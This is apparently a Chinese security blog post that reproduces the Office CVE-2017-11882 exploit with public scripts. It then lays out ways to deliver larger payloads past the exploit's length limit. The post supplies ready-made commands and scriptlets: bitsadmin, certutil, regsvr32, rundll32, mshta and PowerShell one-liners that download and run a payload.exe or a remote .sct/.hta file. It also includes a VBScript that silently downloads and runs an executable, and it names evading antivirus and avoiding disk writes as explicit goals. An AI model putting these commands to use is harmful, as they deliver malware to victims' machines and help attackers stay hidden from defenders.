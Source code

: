 ```yaml
---
title: "Office CVE-2017-11882 复现"
date: 2019-08-03T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['office']
categories: ['漏洞复现']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



漏洞原理移步 [FreeBuf](https://www.freebuf.com/news/154968.html).

环境 Windows 7, Office 2010.

<!--more-->

## 复现过程

[unamer/CVE-2017-11882](https://github.com/unamer/CVE-2017-11882)

[Ridter/CVE-2017-11882](https://github.com/Ridter/CVE-2017-11882)

以前者为例.

生成文档.

```
CVE-2017-11882.py -c calc.exe -t 1 -o test.rtf
```

打开文档.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190803160354.png)

成功执行, 且无其它警告框.

## 改进载荷

这是一个缓冲区溢出漏洞, 这种类型的漏洞一般限制了 Payload 的长度 (具体原因不再说明, 也没有能力说明). 对于功能比较齐全的 Payload 或是 RAT 基本上都会超出这个长度. 一般有两种缩小的方法, 使用 ShellCode 或是远程加载.

上文中的利用脚本已经集成 ShellCode 注入的功能, 不过我并不太推荐, 一是不能灵活的更改要执行的 Payload, 二是向进程注入 ShellCode 的操作极易被杀软拦截.

仅对远程加载进行说明. 之前我也写过关于远程下载的文章, 不过存在几个问题: 1.  偏向于文件 "下载" 而不是执行 2. 功能单一且拓展性差 3. 隐蔽性差.

针对这些问题, 进行远程加载的程序必须符合以下几点: 1. 易于更改 2. 拓展性强 3. 隐蔽性好 4. 尽量不落地执行.

### bitsadmin certutil

这是仅适用于特殊情况必须文件落地而提供的方式.

bitsadmin 只适用于 Windows 7 及以上版本.

```
bitsadmin /transfer get http://192.168.1.1/payload.exe C:\Windows\Temp\payload.exe
```

certutil 需要删除缓存 (%USERPROFILE%\AppData\LocalLow\Microsoft\CryptnetUrlCache\Content).

```
certutil -urlcache -split -f http://192.168.1.1/payload.exe C:\Windows\Temp\payload.exe
certutil -urlcache -split -f http://192.168.1.100/payload.exe C:\Windows\Temp\payload.exe delete
```

### regsvr32 rundll32 mshta (sct file)

把这些放在一起讲主要是因为它们都能够远程加载 sct.

命令执行.

```
<?XML version="1.0"?>
<scriptlet>
<registration
    description="fjzmpcjvqp"
    progid="fjzmpcjvqp"
    version="1.00"
    classid="{204774CF-D251-4F02-855B-2BE70585184B}"
    remotable="true"
	>
<script language="JScript">
<![CDATA[
	var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
]]>
</script>
</registration>
</scriptlet>
```

下载执行.

```
<?XML version="1.0"?>
<scriptlet>
<registration
    description="Bandit"
    progid="Bandit"
    version="1.00"
    classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"
    remotable="true"
	>
<script language="VBScript">
<![CDATA[
	Const adTypeBinary = 1
	Const adSaveCreateOverWrite = 2
	Dim http,ado
	Set http = CreateObject("Msxml2.ServerXMLHTTP.6.0")
	http.SetOption 2, 13056
	http.open "GET","https://192.168.1.1/payload.exe",False
	http.send
	Set ado = createobject("Adodb.Stream")
	ado.Type = adTypeBinary
	ado.Open
	ado.Write http.responseBody
	ado.SaveToFile "c:\windows\temp\payload.exe"
	ado.Close
	CreateObject("WScript.Shell").Run "c:\windows\temp\payload.exe",0,true 
]]>
</script>
</registration>
</scriptlet>
```

在 regsvr32 中执行的时候要把 script 标签放在 registration 标签内才能成功执行, 而 CVE-2017-8570 恰好相反.

命令后面的 scrobj.dll 可能会被误以为这是保存的文件名, 但实际上它是被 regsvr32 调用的 DLL 名称, 以此来执行 sct 中的命令的.

```
regsvr32 /u /s /n /i:http://192.168.1.1/cmd.sct scrobj.dll
```

在 rundll32 中执行的时候要把 script 标签放在 registration 标签外才能成功执行, 与 regsvr32 恰好相反.

另外注意 RunHTMLApplication 的后面有一个空格.

```
rundll32 javascript:"\..\mshtml,RunHTMLApplication ";o=GetObject("script:http://192.168.1.1/cmd.sct");window.close();
```

mshta 中 sct 的标签位置与 rundll32 相同.

```
mshta vbscript:Close(Execute("GetObject(""script:http://192.168.1.1/cmd.sct"")"))
```

### mshta (hta file)

与上文执行 sct 不同, 这里执行的是 hta 中的代码.

```
<HTML> 
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<HEAD> 
<script language="VBScript">
Window.ReSizeTo 0, 0
Window.moveTo -2000,-2000
Set objShell = CreateObject("Wscript.Shell")
objShell.Run "calc.exe"
self.close
</script>
<body>
</body>
</HEAD> 
</HTML> 
```

使用这种 Payload 格式执行命令无须担心 hta 窗口的问题.

至于下载执行的方法就不贴出来了, 自己尝试吧.

```
mshta http://192.168.1.1/cmd.hta
```

### powershell

PowerShell 想必大家都不陌生了吧.

有两种执行方式, 一种是远程加载 PowerShell 的代码来执行, 另一种是直接下载 exe 来执行.

```
IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.1.1/psh-reflection.ps1')
```

```
(New-Object System.Net.WebClient).DownloadFile('http://192.168.1.1/payload.exe','C:\Windows\Temp\payload.exe')
```

### URL

也能够通过缩小 URL 的方式来缩小 Payload 的长度, 例如各大厂商的短网址缩小.

需要考虑这几个问题: 1. 是否有时间限制 2. 是否是 302 跳转而不是通过 HTML 跳转 3. 在某些地区是否能成功访问.

就不细说了.

## 一些话

生成的文档是 rtf 格式的, 虽然更改为 doc 格式能成功执行, 但如果直接编辑内容, 漏洞会执行失败. 所以必须通过 rtf 合并来自定义内容, 在 CVE-2017-8570 中我提供了具体的步骤, 当然利用脚本中的合成方式也是可以成功的, 只是思路不同罢了.

另外针对之前的改进补充一句话, 对 rtf 中的内容进行编辑保存之后, 原有的 objupdate 会失效, 需要手动再次添加.